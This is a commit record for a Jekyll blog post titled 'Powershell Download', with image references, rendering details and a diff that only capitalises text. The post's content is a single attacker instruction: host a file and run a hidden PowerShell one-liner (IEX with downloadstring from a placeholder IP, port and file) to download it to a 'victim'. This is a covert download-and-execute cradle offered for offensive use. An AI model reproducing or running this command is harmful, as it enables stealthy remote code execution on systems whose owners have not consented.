

Before and after one commit to blkbrd/blkbrd.github.io, a Jekyll site: the page built from _posts/2017-06-23-my-first-post.md, in a window 1280 px wide. Shown: the top 453 px of the page, without its empty margins (160-923 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_posts/2017-06-23-my-first-post.md
+++ b/_posts/2017-06-23-my-first-post.md
@@ -4,7 +4,7 @@ title: "Powershell Download"
 date: 2017-06-23
 ---
 <p>
-host file on a webpage. use this command to download file to victim
+Host file on a webpage. Use this command to download file to victim
 <p>
 <code>powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient),downloadstring('http://&lt;ip&gt;:&lt;port&gt;/&lt;file&gt;'))"</code></p>
 </p>
```
